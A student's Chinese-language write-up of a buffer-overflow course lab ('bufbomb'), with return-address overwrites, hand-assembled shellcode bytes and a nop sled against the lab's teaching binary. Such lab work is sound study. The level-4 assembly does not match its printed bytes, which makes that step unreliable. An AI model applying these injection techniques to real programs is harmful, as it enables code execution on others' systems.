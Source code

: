 # ICS-Lab3说明文档

19302010020 袁逸聪

## 操作方式

终端输入 touch levelx.txt 创建txt文件用于输入答案

写完后，输入 ./hex2raw <levelx.txt|./bufbomb -u 19302010020

-u 后为学生id，用于生成cookie，19302010020对应cookie为0x72e793cf

先用hex2raw把答案转化为二进制，再作为输入运行bomb

## level0

level0中，系统将调用test，再在test中调用getbuf

需要依靠没有溢出检测的getbuf修改返回地址，调用smoke函数

1. disas smoke，发现地址为0x08048bc6，即需要把返回地址修改成这个，下考虑返回地址的位置
2. 调用getbuf时，用4字节保存返回地址，而后进入getbuf
3. disas getbuf，看到两次push占用8字节，随后申请了0x24即36空间，故在储存返回地址后，栈中又存放了44字节
4. 由此，任意填充44字节后，在接下来的4字节输入0x08048bc6，考虑到小端法，应输入c6 8b 04 08

输入 ./hex2raw <level0.txt|./bufbomb -u 19302010020 检验通过

## level1

level1与level0相似，但仅仅调用函数不够，还要传入正确参数

不调用smoke而调用fizz，并且传入等同于cookie的参数

1. disas fizz，发现地址为0x08048c01，并且cmp对象为edx、eax，edx中数据来自于ebp+8，显然是参数保存位置
2. 类似于level10，getbug的返回地址被更改为fizz的开头
3. push ebp，并使ebp指向了esp所在，即保存ebp的地址(也是fizz地址被防止的地址)
4. 此后，ebp未被更改，因而ebp+8指向的是fizz地址所在地址之上8位
5. 由此，任意填充44字节后，输入0x08048c01(保存在读取参数时ebp位置)，空开4字节再输入cookie：0x72e793cf(保存在读取参数时ebp+8位置)

输入 ./hex2raw <level1.txt|./bufbomb -u 19302010020 检验通过

## level2

类似于level1，调用bang，但不是要参数，而是要全局变量与cookie相等

因而需要先找到全局变量的位置，自己写汇编代码修改全局变量并跳转到bang，修改地址执行我们写的代码内容

1. disas bang寻找全局变量位置，直接找到唯一的cmp，比较eax与edx，可见其中一者保存了cookie，一者为需要修改的全局变量。顺便记录bang地址0x08048c63
2. 但其地址是基于%ebx计算获得的，run test时找到ebx被设为0x0804d000，分别按照bang加上0x1114,0x111c后print，发现0x0804e114中存储正是cookie，那么0x0804e11c就是应修改的全局变量了
3. 由此，需要做的事是：push bang地址，修改全局变量为cookie，return(调用bang)

编写汇编代码assem2.s:
>push $0x08048c63
>movl $0x72e793cf,0x0804e11c
>ret

终端输入
>gcc -m32 -c assem2.s
>objdump -d assem2.o > assem2.d
>cat assem2.d

看到对应的二进制代码
>68 63 8c 04 08
>c7 05 1c e1 04 08 cf 93 e7 72
>c3

于是，将以上内容填充金level2答案的前44个字节部分，并把最后的返回地址覆盖设置为我们输入的汇编代码对应地址

1. 在getbuf中找到输入内容将被存储的缓冲区地址，即lea -0x28(%ebp)所赋值，设置断点查看接受赋值的edx，找到为0x55683b18
2. 由此，在前44个字节中，先填充上述二进制代码，随意补完44字节后，再输入0x55683b18

输入 ./hex2raw <level2.txt|./bufbomb -u 19302010020 检验通过

## level3

level3要求我们在执行攻击后继续继续正常运行test，但需要把getbuf的返回值改为cookie

类似于更改全局变量，更改寄存器eax需要我们自己写汇编代码执行，但为使test顺利运行，还需要恢复ebp与ebx的值(getbuf函数结尾原本就会做)

1. disas test 找到调用getbuf后要执行代码的地址0x08048cf1
2. 在调用getbuf处设置断点，获取需要保存的ebp:0x55683b60和ebx:0x0804d000，用于恢复

编写汇编代码assem3.s:
>push $0x08048cf1
>movl $0x72e793cf,%eax
>movl $0x55683b60,%ebp
>movl $0x0804d000,%ebx
>ret

终端输入
>gcc -m32 -c assem3.s
>objdump -d assem3.o > assem3.d
>cat assem3.d

看到对应的二进制代码
>68 f1 8c 04 08
>b8 cf 93 e7 72
>bd 60 3b 68 55
>bb 00 d0 04 08
>c3

类似于level2，将汇编代码的部分替换成以上内容(当然，更长的部分也需要替换更多的00，以保证总长度不变)

输入 ./hex2raw <level3.txt|./bufbomb -u 19302010020 检验通过

## level4

level4采用了栈地址随机化(栈建立在全局变量之上，根据需储存内容的不同，栈地址有所变化)，本关无法精确掌握需跳转地址

同时，getbuf也变为getbufn，申请0x204而不是0x24个空间用于写入

本关的随机化方式为在栈前申请随机大小的空间，因而栈指针esp的具体值无法实现确定，ebp同理

* 需要提供5个输入，改用./hex2raw -n<level4.txt|./bufbomb -n -u 19302010020

本关需求类似于level3，需要在修改返回值为cookie的同时恢复ebp、ebx并返回test，此处的ebp无法实现确定，只能根据当时的esp获取

1. disas getbufn，调用它时将保存返回地址、push ebp、push ebx、申请0x204空间，故书写时到第525~528个字节为返回地址
2. 在调用getbufn处设置断点，获取需要恢复的ebx：0804d000
3. 需要恢复的ebp无法直接获取，但可以在注入代码中根据esp反推：从testn中同步开始算，push ebx时esp-4,开辟空间又减少0x14,故ebp应为esp+0x18
4. disas testn，获取需要继续运行的下一行地址0x08048d81

编写汇编代码assem4.s:
>movl $0x72e793cf,%eax
>lea 0x18(%esp),%ebp
>movl $0x0804d000,%ebx
>push $0x08048d81
>ret

**这里push需要放在恢复ebp后，否则esp就被改变了**

终端输入
>gcc -m32 -c assem4.s
>objdump -d assem4.o > assem4.d
>cat assem4.d

看到对应的二进制代码
>b8 cf 93 e7 72
>8d ac 24 08 02 00 00
>bb 00 d0 04 08
>68 81 8d 04 08
>c3

我们需要把这段代码写入栈中，并把原来的return adress替换成代码的首字节地址，但由于栈的具体地址随机化，无法精确确定

运行发现，level4的栈随机化并非完全随机，只是5次运行会改变顺序取几个值，断点检测每一次getbufn时写入内容的首地址：

0x55683998是其中最大的

也就是说，跳转到这个地址，可以保证接下来执行的是我们写入的区域而不是之前的其他代码

但由于随机，不一定正好落在首地址上(如果首地址小于0x55683998，就将落在中段)

因而采用nop sled策略，在前面部分大量填充nop(0x90)，效果为执行下一条，落入写入范围的情况下，必然能一路跳nop达到注入代码块

由此：

答案包含528个字节，后4个为0x55683998，紧跟在前面为上述汇编代码，其他位置用nop填充

输入 cat level4.txt|./hex2raw -n|./bufbomb -n -u 19302010020 检验通过
